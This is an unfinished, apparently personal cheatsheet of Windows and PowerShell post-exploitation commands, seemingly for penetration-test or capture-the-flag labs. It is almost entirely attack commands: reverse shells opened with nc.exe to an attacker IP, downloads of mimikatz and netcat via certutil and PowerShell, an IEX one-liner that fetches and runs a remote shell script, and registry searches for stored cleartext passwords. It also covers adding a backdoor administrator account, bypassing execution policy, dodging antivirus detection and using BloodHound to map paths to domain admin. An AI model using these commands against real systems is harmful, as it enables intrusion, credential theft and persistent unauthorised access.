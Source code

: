 Windows(Powershell) Cheatsheet
=====================
work in progress

## Usefull information

https://gist.github.com/babutzc/f68f5414fc8595ca8f80abbe36d7b946
https://ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass
https://github.com/moatn/cheatsheets/blob/master/windowsstuff.md

## Information gathering

### CMD
```
whoami
echo %username%
systeminfo
hostname
net use
net view
net user
net user <username>
net user <username> /domain
net localgroup
set
findstr /C:"<autoElevate>true" 
schtasks /query /fo LIST /v | findstr "tomcat"
```

### Powershell
```
$ExecutionContext.SessionState.LanguageMode
$Env:Path
Get-volume
hostname
get-process
get-service
Get-NetFirewallRule
Get-Childitem
Get-Content
```

### Networking

```
netstat -ano
route print
```

### cleartext passwords?

```
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml

%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

reg query "HKCU\Software\ORL\WinVNC3\Password"

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Run as

### Execute commands as a different user
Execute commands as different user when stored credentials are availeble (cmd.exe)
```
runas /user:.\username /savecred 'nc.exe -e cmd.exe 10.10.1.2 1234'
```

Execute commands as different user on powershell.
```
$username = "username"
$password = "password1"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
$Session    = New-PSSession -Credential $Credential
Invoke-Command -Session $Session  -ScriptBlock { nc.exe -e cmd.exe 10.10.1.2  1234 }
```

### Adding users

Quickly add a user to the system. If admin privs are also acquired, add the user to the admin group. 
```
net user username password /add
net localgroup administrators username /add
```

## Downloading Files

### kali
```
python3 -m http.server 80
```
### CMD
```
certutil -urlcache -split -f "http://10.10.14.24/mimikatz.exe" mim.exe
certutil.exe -urlcache -split -f "http://10.10.14.24/mimikatz.exe" %TMP%\mim.exe
```

### Powershell
```
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.24/nc.exe','c:\temp\nc.exe')
powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")
powershell.exe wget "http://10.10.14.24/nc.exe" -outfile "c:\temp\nc.exe"
IEX (new-object System.Net.WebClient).DownloadString('http://10.10.14.24/shell.ps1')
wget
curl -O http://10.10.14.24/nc.exe
powershell -c -e {base64} 
```

### SMB

Setup SMB share to copy files

#### kali
(Make sure you use the correct path to impacket)
```
python3 tools/impacket/examples/smbserver.py DAAN /tmp/DAAN
```
#### win
```
net view \\10.10.14.24
dir \\10.10.14.24\DAAN

#from attacker
copy \\10.10.14.24\DAAN\nc.exe
#to attacker
copy nc.exe \\10.10.14.24\DAAN\nc.exe
```

### Mounting shares (CMD)
```
net use Y: \\10.10.10.25\C$ /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:FEEST\username "password" /PERSISTENT:YES
net use Y: \\10.10.10.25\Users /USER:.\username "password" /PERSISTENT:YES
```

## Powersploit

https://github.com/PowerShellMafia/PowerSploit
Documentation: https://powersploit.readthedocs.io/en/latest/

### PowerUp.ps1
Remove lines 1-9 as some mallware programs seem to flag this script because of these lines.

#### When the script doesn't run
Disable Execution Policy:
```
powershell -ep bypass
```
If a script will not run check for AMSI bypassing

#### Running PowerUp.ps1
```
Import-module PowerUp.ps1
. .\PowerUp.ps1

Invoke-AllChecks
```

## Bloodhound
https://github.com/BloodHoundAD/BloodHound

install on Kali
```
sudo apt-install bloodhound
```
start
```
bloodhound (in terminal)
sudo neo4j console
```
"Bolt enabled on 'ipaddress:port' "

"Remote interface available at: 'ipaddress:port"
Go to address and change the password in bolt (default password is neo4j)

On windows:
download sharphound and upload to victim
https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.exe

```
.\SharpHound.exe
```
Creates a zip, download it to Kali and drag it into BloodHound

Enum Bloodhound
- Search users you owned and mark them (rightclick "mark as owned")
- Click on the lines (right), querries > 
	- "shortest path from owned principals"
	- "shortest path to domain admins"
	- "dcsync rights"

